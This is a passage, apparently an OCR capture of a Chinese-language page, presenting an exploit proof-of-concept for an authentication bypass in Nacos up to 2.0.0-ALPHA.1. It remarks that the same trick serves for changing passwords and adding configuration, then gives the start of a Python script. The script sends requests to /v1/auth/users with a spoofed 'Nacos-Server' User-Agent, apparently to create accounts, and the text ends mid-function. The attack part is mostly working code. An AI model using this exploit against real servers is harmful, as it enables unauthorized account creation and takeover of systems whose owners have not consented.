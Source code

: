 \>

\> 同样的原理也可以用于修改密码添加配置等

  

\## 漏洞利用POC

  

\> \[!NOTE\]

\>

\> 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是 /nacos/v1/auth/users

\>

\> 可以按目标情况自行修改

  

\`\`\`python

import requests

import sys

import random

from requests.packages.urllib3.exceptions import InsecureRequestWarning

  

def title():

print('+------------------------------------------')

print('+ \\033\[34mPOC\_Des: http://wiki.peiqi.tech \\033\[0m')

print('+ \\033\[34mGithub : https://github.com/PeiQi0 \\033\[0m')

print('+ \\033\[34m公众号 : PeiQi文库 \\033\[0m')

print('+ \\033\[34mVersion: Nacos <= 2.0.0-ALPHA.1 \\033\[0m')

print('+ \\033\[36m使用格式: python3 poc.py \\033\[0m')

print('+ \\033\[36mUrl >>> http://xxx.xxx.xxx.xxx \\033\[0m')

print('+------------------------------------------')

  

def POC\_1(target\_url):

\# vuln\_url = target\_url + "/nacos/v1/auth/users"

vuln\_url = target\_url + "/v1/auth/users"

headers = {

"User-Agent": "Nacos-Server",

"Content-Type": "application/x-www-form-urlencoded",

}

number = random.randint(0,999)
